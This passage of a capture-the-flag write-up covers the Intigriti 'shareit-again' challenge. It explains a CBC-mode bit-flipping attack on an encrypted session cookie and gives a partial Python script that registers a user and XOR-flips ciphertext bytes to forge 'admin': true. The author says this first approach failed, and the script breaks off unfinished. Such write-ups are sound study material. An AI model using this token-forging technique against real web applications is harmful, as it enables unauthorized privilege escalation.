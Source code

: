 ## Exploit(s)

In order to be allowed to access `/admin-opinions` and obtain the flag it is necessary to inject a token with `admin` set to `True`; the vulnerability is again a [cbc-mode bit-flipping attack](https://zhangzeyu2001.medium.com/attacking-cbc-mode-bit-flipping-7e0a1c185511) but this time things are more complicated, since we don't know the `iv` used by the server.

I tried two approach to forge the new token and solve this challenge.

### First Approach

This first attempt did not work but i am still reporting it because, despite this, i think it is an interesting approach to exploit this kind of vulnerability. Moreover, it implicitly leverages an important characteristic that will be crucial for the implementation of the working solution.

What i did was to basically adapt the solution presented in the previous challenge to obtain the same result: in order to achieve this, i had first to correctly craft the `user_dict` token:

```python
import json
import base64
import requests

base_url = "https://shareit-again.ctf.intigriti.io"

# register a new user and get the corresponding token
def register_user(username, first_name, last_name):
    session = requests.Session()

    register_body = {
        "username": username,
        "first_name": first_name,
        "last_name": last_name,
    }
    session.post(base_url + "/register", data=register_body)
    token = session.cookies["token"]

    token = json.loads(base64.b64decode(token).decode())
    print(f"original token: {token}")
    return token

# forge a new token with -> "admin": true
def forge_token(token, user_dict_leak, enc_user_dict):
    new_admin_value = b" tru"
    new_value_index = 92

    for flip in new_admin_value:
        mask = flip ^ user_dict_leak[new_value_index]
        enc_user_dict[new_value_index - 16] = enc_user_dict[new_value_index - 16] ^ mask
        new_value_index += 1

        token["user_dict"] = base64.b64encode(enc_user_dict).decode()
        new_token = {"token": base64.b64encode(json.dumps(token).encode()).decode()}

    get_flag = requests.get(base_url + "/admin-opinions", cookies=new_token)
    print(get_flag.text)

if __name__ == "__main__":
    user_dict = {'username': "AA", 'first_name': "AAAAAAAAAAAAA",
                    'last_name': "!!!!!!!!!!!!!!!!", 'admin': False}

    token = register_user(user_dict["username"], user_dict["first_name"], user_dict["last_name"])

    user_dict_leak = json.dumps(user_dict).encode()

```